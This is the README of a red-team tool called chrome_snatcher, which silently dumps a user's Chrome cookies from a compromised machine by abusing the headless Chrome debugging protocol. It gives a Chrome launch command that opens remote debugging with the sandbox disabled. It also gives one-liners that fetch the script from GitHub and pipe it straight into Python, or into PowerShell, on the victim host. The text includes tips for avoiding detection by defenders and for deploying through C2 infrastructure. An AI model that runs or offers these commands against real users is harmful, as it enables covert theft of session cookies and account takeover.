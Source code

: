 # chrome_snatcher
Chrome (headless) cookie snatcher

For use in Red Team ops where you have a shell on a user's machine and want to (silently) dump their cookies, without needing to compromise their keychain on OSX (and risk alerting the user/setting off alarm bells).  (Ab)uses Chrome Debugger Protocol in headless mode to load up a site (and/or potentially their most recent browsing session so you can see what they were looking at, etc, although can be modified as needed), start crumb-snatchin', and obtain all of the l3wtz.  

(Also, additional caveat:  Chrome Debugger Protocol is verrry cantankerous, so it may not cooperate immediately, but luckily it's not noisy to start and stop it.  If the user already has Chrome open, you can skip the 
 --headless part, and it generally is more cooperative.)

No additional privilege needed to run it beyond what the user has.

Usage:

`/path/to/user's/chrome --headless=new --remote-debugging-port=9222 --remote-allow-origins="*" --no-sandbox --disable-gpu --profile-directory="Profile <x>" (In my case it wasn't 0 or 1, so you might have to do some additional recon/trial/error here)`

MacOSx/Linux:
`curl -s https://raw.githubusercontent.com/pwna5aurus/chrome_snatcher/main/chrome_snatcher.py | python3`

Windows (potentially risky method for deployment as many if not most Blue/IR watches POSH like a hawk, probably better to use your agent/C2 infra):
`Invoke-WebRequest -Uri "https://raw.githubusercontent.com/pwna5aurus/chrome_snatcher/main/chrome_snatcher.py" -UseBasicParsing | Select-Object -ExpandProperty Content | python -`

Enjoy!
